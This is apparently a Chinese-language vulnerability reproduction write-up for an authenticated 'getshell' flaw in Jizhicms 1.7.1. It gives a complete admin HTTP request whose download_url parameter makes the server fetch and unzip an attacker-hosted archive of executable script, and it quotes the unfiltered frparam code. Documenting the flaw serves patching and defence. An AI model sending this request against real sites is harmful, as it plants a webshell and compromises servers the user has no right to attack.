 Jizhicms 1.7.1 后台getshell
===========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    POST /admin.php/Plugins/update.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 80
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Plugins/
    Cookie: PHPSESSID=tq79jo8omp5s72lq101noj48lq

    action=start-download&filepath=msgphone&download_url=http://www.0-sec.org/test/a.zip

攻击者可以控制download\_url传入参数的值，从而传入被压缩的可执行脚本，然后该压缩包会被解压并传入到特定位置，实现getshell所以只需要攻击者在自己控制的网站上压缩可执行脚本然后将url赋值给download\_url即可实现任意文件上传定位下函数位置，该函数位于/A/c/PluginsController.php下的update函数![1.png](./.resource/Jizhicms1.7.1后台getshell/media/rId24.png)传进来的值通过frparam函数处理之后变赋值给了remote\_url跟进到frparam函数函数中，该函数位于/FrPHP/lib/Controller.php中

    public function frparam($str=null, $int=0,$default = FALSE, $method = null){

            $data = $this->_data;
            if($str===null) return $data;
            if(!array_key_exists($str,$data)){
                return ($default===FALSE)?false:$default;
            }
            if($method===null){
                $value = $data[$str];
            }else{
                $method = strtolower($method);
                switch($method){
                    case 'get':
                    $value = $_GET[$str];
                    break;
                    case 'post':
                    $value = $_POST[$str];
                    break;
                    case 'cookie':
                    $value = $_COOKIE[$str];
                    break;
                }
            }
            return format_param($value,$int);
        }

该函数并没有对传入的值进行过滤，只是简单的从data数组里取数据然后继续回到update函数，在获取到了remote\_url的值后便进行了下载以及解压缩的操作![2.png](./.resource/Jizhicms1.7.1后台getshell/media/rId25.png)![3.png](./.resource/Jizhicms1.7.1后台getshell/media/rId26.png)最后解压到的文件夹为/A/exts![4.png](./.resource/Jizhicms1.7.1后台getshell/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7775\#toc-3
